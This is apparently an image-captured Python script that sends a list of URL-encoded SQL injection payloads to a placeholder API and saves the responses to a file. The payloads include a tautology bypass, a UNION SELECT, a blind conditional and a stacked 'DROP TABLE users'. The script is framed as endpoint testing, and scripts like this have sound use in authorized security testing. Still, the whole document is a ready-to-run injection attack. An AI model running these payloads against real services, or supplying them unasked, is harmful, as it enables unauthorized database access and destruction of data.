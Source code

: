 import requests

# List of test endpoints with different SQL injection attempts
endpoints = [
    "/2024-01-01%27%20OR%20%271%27=%271/1",   # Basic SQL Injection
    "/2024-01-01%27%20UNION%20SELECT%20NULL--/1",  # Union-Based SQL Injection
    "/2024-01-01%27;%20--/1",  # Comment Out the Rest of the Query
    "/2024-01-01%27%20AND%20(SELECT%20CASE%20WHEN%20(1=1)%20THEN%20'true'%20ELSE%20to_char(1/0)%20END)=%27true%27/1",  # Blind SQL Injection
    "/2024-01-01%27;%20DROP%20TABLE%20users;--/1",  # Stacked Queries
]

# Base URL of the endpoint
base_url = "http://yourapi.com"

# File to save responses
response_file = "responses.txt"

# Function to send requests and save responses
def test_endpoints():
    with open(response_file, "w") as f:
        for endpoint in endpoints:
            url = f"{base_url}{endpoint}"
            try:
                response = requests.get(url)
                f.write(f"Endpoint: {url}\n")
                f.write(f"Status Code: {response.status_code}\n")
                f.write(f"Response: {response.text}\n")
                f.write("\n" + "="*40 + "\n")
            except requests.exceptions.RequestException as e:
                f.write(f"Failed to connect to {url}: {e}\n")
                f.write("\n" + "="*40 + "\n")
    print(f"Responses have been saved to {response_file}")

if __name__ == "__main__":
    test_endpoints()